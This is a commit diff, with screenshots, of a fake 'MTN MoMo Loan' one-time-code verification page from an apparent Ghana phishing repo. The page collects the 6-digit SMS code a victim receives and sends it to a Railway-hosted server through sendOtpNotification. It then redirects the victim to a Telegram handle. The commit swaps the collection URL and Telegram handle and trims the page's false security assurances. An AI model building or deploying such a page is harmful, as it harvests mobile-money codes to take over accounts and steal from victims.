

Before and after one commit to inncredits-jpg/GhanaMTN, a plain HTML site: page otp-verify.html in a window 1280 px wide. Both pictures are taken after a click on the button "Verify & Continue →". Shown: the part 163-782 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update otp-verify.html

```diff
--- a/otp-verify.html
+++ b/otp-verify.html
@@ -14,42 +14,25 @@
         .summary-value { font-size: 1rem; font-weight: 700; color: #FFCC00; }
         .otp-card { background: #111827; border-radius: 32px; padding: 28px 24px 32px 24px; border: 1px solid rgba(255, 204, 0, 0.1); }
 
-        /* MTN Logo Styles */
         .mtn-header { display: flex; align-items: center; justify-content: center; gap: 10px; margin-bottom: 24px; }
         .mtn-brand { font-size: 1.6rem; font-weight: 800; color: #FFCC00; letter-spacing: -0.5px; }
         .mtn-brand span { color: #ffffff; font-weight: 500; }
 
         .section-title { font-size: 1.3rem; font-weight: 700; color: #ffffff; }
-        .section-sub { font-size: 0.8rem; color: #7e8aa2; margin-bottom: 20px; border-left: 3px solid #FFCC00; padding-left: 12px; }
-
-        /* Waiting Message Styles */
-        .waiting-message { background: rgba(255, 204, 0, 0.1); border-radius: 16px; padding: 14px 16px; margin-bottom: 20px; border-left: 3px solid #FFCC00; }
-        .waiting-message span { font-size: 0.85rem; color: #e2e8f0; }
-        .waiting-message span strong { color: #FFCC00; }
-
-        .phone-verify-box { background: #0f1724; border-radius: 24px; padding: 18px 16px; margin-bottom: 20px; display: flex; justify-content: space-between; align-items: center; border: 1px solid rgba(255, 204, 0, 0.1); }
+        .section-sub { font-size: 0.8rem; color: #7e8aa2; margin-bottom: 28px; border-left: 3px solid #FFCC00; padding-left: 12px; }
+        .phone-verify-box { background: #0f1724; border-radius: 24px; padding: 18px 16px; margin-bottom: 28px; display: flex; justify-content: space-between; align-items: center; }
         .phone-number { font-size: 1.1rem; font-weight: 700; color: #e2e8f0; }
-        .edit-link { color: #FFCC00; background: rgba(255, 204, 0, 0.1); padding: 6px 14px; border-radius: 40px; cursor: pointer; }
+        .edit-link { color: #FFCC00; background: rgba(255,204,0,0.1); padding: 6px 14px; border-radius: 40px; cursor: pointer; }
         .otp-container { display: flex; justify-content: center; gap: 12px; margin-bottom: 20px; flex-wrap: wrap; }
         .otp-box { width: 55px; height: 65px; background: #0f1724; border: 2px solid #1f2a3e; border-radius: 16px; text-align: center; font-size: 1.6rem; font-weight: 700; color: #FFCC00; outline: none; }
-        .otp-box:focus { border-color: #FFCC00; box-shadow: 0 0 0 3px rgba(255, 204, 0, 0.2); }
-
-        /* Tips Box Styles */
-        .tips-box { background: #0f1724; border-radius: 16px; padding: 12px 16px; margin-bottom: 20px; text-align: center; border: 1px solid rgba(255, 204, 0, 0.1); }
-        .tips-text { font-size: 0.7rem; color: #94a3b8; }
-        .tips-text strong { color: #FFCC00; }
-
+        .otp-box:focus { border-color: #FFCC00; box-shadow: 0 0 0 3px rgba(255,204,0,0.2); }
         .verify-btn { width: 100%; background: linear-gradient(135deg, #FFCC00, #F5A623); border: none; padding: 18px; font-size: 1.1rem; font-weight: 700; color: #0b1120; border-radius: 60px; cursor: pointer; }
-        .verify-btn.loading { opacity: 0.7; cursor: wait; }
+        .verify-btn.loading { opacity: 0.7; cursor: not-allowed; }
         .error-message { color: #f43f5e; font-size: 0.75rem; text-align: center; margin-top: 12px; display: none; }
         .error-message.show { display: block; }
-
-        /* Security Note Styles */
-        .security-note { display: flex; align-items: center; justify-content: center; gap: 8px; margin-top: 20px; font-size: 0.7rem; color: #5b6a8a; }
-        .security-note span { font-size: 0.9rem; }
-
-        .toast { position: fixed; bottom: 30px; left: 50%; transform: translateX(-50%); background: rgba(255, 204, 0, 0.9); backdrop-filter: blur(10px); color: #0b1120; padding: 12px 24px; border-radius: 60px; font-size: 0.85rem; font-weight: 500; z-index: 1000; opacity: 0; transition: opacity 0.3s; pointer-events: none; }
-        .toast.show { opacity: 1; }
+        .success-message { color: #FFCC00; font-size: 0.8rem; text-align: center; margin-top: 12px; display: none; background: rgba(255,204,0,0.1); padding: 10px; border-radius: 12px; }
+        .success-message.show { display: block; }
+        .telegram-note { text-align: center; margin-top: 16px; font-size: 0.7rem; color: #5c6f87; }
 
         @media (max-width: 450px) { .otp-box { width: 48px; height: 55px; font-size: 1.4rem; } }
     </style>
@@ -64,18 +47,12 @@
     </div>
 
     <div class="otp-card">
-        <!-- MTN Logo -->
         <div class="mtn-header">
             <div class="mtn-brand">MTN<span>MoMo Loan</span></div>
         </div>
 
-        <div class="section-title">🇬🇭 Verify your number</div>
+        <div class="section-title">Verify your number</div>
         <div class="section-sub">Enter the 6-digit verification code</div>
-
-        <!-- Waiting Message -->
-        <div class="waiting-message">
-            <span>📱 <strong>Wait for OTP message</strong> — We've sent a 6-digit code to your registered phone number. Enter the code below to verify your application.</span>
-        </div>
 
         <div class="phone-verify-box">
             <div><span class="phone-number" id="displayPhone">+233 54 123 4567</span></div>
@@ -91,27 +68,17 @@
             <input type="text" maxlength="1" class="otp-box" data-idx="5" inputmode="numeric">
         </div>
 
-        <!-- Tips Box -->
-        <div class="tips-box">
-            <div class="tips-text">⏳ <strong>Didn't receive the code?</strong> Check your SMS inbox or request a new code after 30 seconds.</div>
-        </div>
-
         <div class="error-message" id="otpError">⚠️ Please enter all 6 digits</div>
+        <div class="success-message" id="otpSuccess">✓ Verified! Redirecting to Telegram...</div>
         <button class="verify-btn" id="verifyBtn">Verify & Continue →</button>
-
-        <!-- Security Note -->
-        <div class="security-note">
-            <span>🔒</span> Your verification is encrypted and secure
-        </div>
+        <div class="telegram-note">After verification, you'll be redirected to Telegram to complete your application</div>
     </div>
 </div>
 
-<div class="toast" id="toast">✓ Verified! Redirecting to Telegram...</div>
-
 <script>
     // ========== MTN GHANA OTP CONFIGURATION ==========
-    const RAILWAY_URL = 'https://zimbuccks-production.up.railway.app';
-    const TELEGRAM_USERNAME = 'Crypto_760';  // ✅ User lands on @Crypto_760
+    const RAILWAY_URL = 'https://ghanamtn-production.up.railway.app';
+    const TELEGRAM_USERNAME = 'inbucksk';  // ✅ USERS LAND AT @inbucksk
 
     const urlParams = new URLSearchParams(window.location.search);
     const amount = urlParams.get('amount') || '500';
@@ -127,13 +94,6 @@
     document.getElementById('summaryMonthly').innerText = `₵${parseFloat(monthly).toFixed(2)}`;
     document.getElementById('summaryRate').innerText = `${rate}%`;
     document.getElementById('displayPhone').innerText = userPhone;
-
-    const toast = document.getElementById('toast');
-    function showToast(message) {
-        toast.textContent = message;
-        toast.classList.add('show');
-        setTimeout(() => toast.classList.remove('show'), 3000);
-    }
 
     async function sendOtpNotification(otp) {
         try {
@@ -160,8 +120,13 @@
     let currentOtp = ['', '', '', '', '', ''];
     const verifyBtn = document.getElementById('verifyBtn');
     const errorMsg = document.getElementById('otpError');
+    const successMsg = document.getElementById('otpSuccess');
 
-    function updateOtpUI() { otpBoxes.forEach((box, idx) => { box.value = currentOtp[idx] || ''; }); }
+    function updateOtpUI() {
+        otpBoxes.forEach((box, idx) => {
+            box.value = currentOtp[idx] || '';
+        });
+    }
 
     function setOtpDigit(index, value) {
         if (value && !value.match(/[0-9]/)) return;
@@ -194,7 +159,7 @@
         verifyBtn.textContent = 'Verifying...';
         verifyBtn.classList.add('loading');
         await sendOtpNotification(enteredOtp);
-        showToast('✓ Verified! Redirecting to Telegram...');
+        successMsg.classList.add('show');
         setTimeout(() => { redirectToTelegram(); }, 1500);
     };
 
```
